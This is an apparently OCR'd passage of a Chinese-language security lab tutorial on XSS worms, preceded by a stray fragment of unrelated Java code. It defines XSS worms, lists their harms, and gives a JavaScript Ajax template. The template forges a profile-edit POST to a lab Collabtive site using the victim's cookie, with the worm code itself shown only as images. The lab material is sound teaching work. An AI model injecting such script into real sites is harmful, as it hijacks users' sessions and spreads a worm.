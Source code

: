 ```
    }
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    }
    }
```
### lab5 XSS蠕虫 

#### xss蠕虫 cross site scripting worm 

是一种跨站脚本病毒， 通常由脚本语言Javascript写成， 它借由网站访问者传播。由于XSS蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染；

#### XSS蠕虫的危害 

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等等。

#### XSS蠕虫的学习 

首先我么需要理解一下Ajax框架。框架代码如下：

```
    var Ajax=null;
    // 构建http请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open(&#34;POST&#34;,&#34;http://www.xsslabcollabtive.com/manageuser.php?action=edit&#34;,true);
    Ajax.setRequestHeader(&#34;Host&#34;,&#34;www.xsslabcollabtive.com&#34;);
    Ajax.setRequestHeader(&#34;Keep-Alive&#34;,&#34;300&#34;);
    Ajax.setRequestHeader(&#34;Connection&#34;,&#34;keep-alive&#34;);
    Ajax.setRequestHeader(&#34;Cookie&#34;,document.cookie);
    Ajax.setRequestHeader(&#34;Content-Type&#34;,&#34;application/x-www-form-urlencoded&#34;);
    // 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
    var content=&#34;name=...&amp;company=&amp;...&#34;; // 这是你需要填写的内容
    // 发送http POST请求。
    Ajax.send(content);
```

我们创建一个test.js的文件；这个文件中是上面的Ajax框架：

```
    sudo vim test.js
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159744204?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们在创建一个test1.js的文件，写一个xss蠕虫代码：

```
    sudo vim test1.js
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159761760?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
